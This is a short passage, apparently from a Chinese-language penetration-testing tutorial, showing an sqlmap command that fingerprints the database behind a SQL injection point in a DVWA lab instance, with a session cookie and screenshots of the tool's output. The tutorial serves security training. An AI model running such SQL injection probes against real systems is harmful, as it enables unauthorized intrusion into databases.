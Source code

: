 ![](img/aab8d639-0c59-46dd-8034-e020b607e1f7.png)

图 8：具有有价值信息的 Sqlmap 输出

我们可以使用`-f`选项来对数据库进行指纹识别，如下所示：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -f
```

我们得到以下输出：

![](img/0f2eb51a-1563-4ece-a8fe-7514d06d9c58.png)
